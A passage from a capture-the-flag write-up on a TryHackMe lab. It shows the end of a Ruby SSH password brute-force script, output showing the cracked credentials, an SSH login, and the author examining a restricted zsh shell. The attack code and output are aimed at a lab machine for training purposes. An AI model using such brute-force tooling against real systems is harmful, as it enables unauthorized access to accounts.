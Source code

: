 ```ruby

            # Sleep 0.5s to prevent rate limiting in SSH
            sleep(0.5)
        end
    end
end

def main()
    rhosts = '10.10.232.55'
    username = 'noraj'
    passwordWordlist = 'bu_password.txt'

    objectExploit = Exploit.new(rhosts)
    objectExploit.bruteforceSSH(passwordWordlist, username)
end

if $PROGRAM_NAME == __FILE__
    main()
end
```

```shell
╭─root at siunam in ~/ctf/thm/ctf/Red-Stone-One-Carat 2023-01-12 - 10:20:25
╰─○ ruby bruteforce_ssh.rb
[...]
[+] Found valid credentials: noraj:chesseburger
```

**Found it! Let's SSH into user `noraj`!**
```shell
╭─root at siunam in ~/ctf/thm/ctf/Red-Stone-One-Carat 2023-01-12 - 10:28:06
╰─○ ssh noraj@$RHOSTS
noraj@10.10.232.55's password: 
getent:6: command not found: grep
compdump:136: command not found: mv
red-stone-one-carat% whoami;hostname;id;ip a
zsh: command not found: whoami
zsh: command not found: hostname
zsh: command not found: id
zsh: command not found: ip
red-stone-one-carat% /bin/bash
zsh: /bin/bash: restricted
```

**Hmm... Looks like we're in a restricted zsh shell!**

**Let's view the environment variables:**
```shell
red-stone-one-carat% export
HOME=/home/noraj
LANG=en_US.UTF-8
LANGUAGE=en_US:
LOGNAME=noraj
MAIL=/var/mail/noraj
OLDPWD=/home/noraj
PATH=/home/noraj/bin
PWD=/home/noraj
SHELL=/bin/rzsh
SHLVL=1
SSH_CLIENT='10.9.0.253 53598 22'
SSH_CONNECTION='10.9.0.253 53598 10.10.232.55 22'
SSH_TTY=/dev/pts/0
TERM=xterm-256color
USER=noraj
XDG_RUNTIME_DIR=/run/user/1001
XDG_SESSION_ID=25
```